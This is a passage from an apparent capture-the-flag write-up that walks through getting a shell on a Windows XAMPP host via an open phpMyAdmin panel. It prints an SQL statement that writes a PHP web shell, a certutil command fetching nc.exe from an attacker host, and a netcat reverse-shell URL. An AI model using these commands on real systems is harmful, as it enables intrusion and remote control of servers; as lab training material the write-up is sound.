 You can grab the flags now.

## Using phpMYAdmin

I will explain this briefly.

Simply go to the directory of phpmyadmin as shown in the dirsearch :```http://172.31.1.14/phpmyadmin/```.

You can see that you can enter the panel without any creds. Simply, browse to the wordpress tab --> wpusers table. Click on the ```SQL``` tab and type this : ```SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"``` and hit GO.

![Command Shell via phpmyadmin](./images/shellphp.png)

Now visit the url : ```http://172.31.1.14/backdoor.php?cmd=whomai```

You will see that your command is executing. To get a reverse shell simply upload a nc.exe by hosting it and then typing this in the URL : ```certutil -urlcache -split -f http://10.10.0.40:8000/nc.exe %TEMP%/nc.exe``` instead of ```whoami```. 

Start a listener again and then fire this in the URL :

```http://172.31.1.14/backdoor.php?cmd=%TEMP%/nc.exe%20-e%20cmd.exe%2010.10.0.40%20443``` 

Boom ! You have a reverse shell ! 
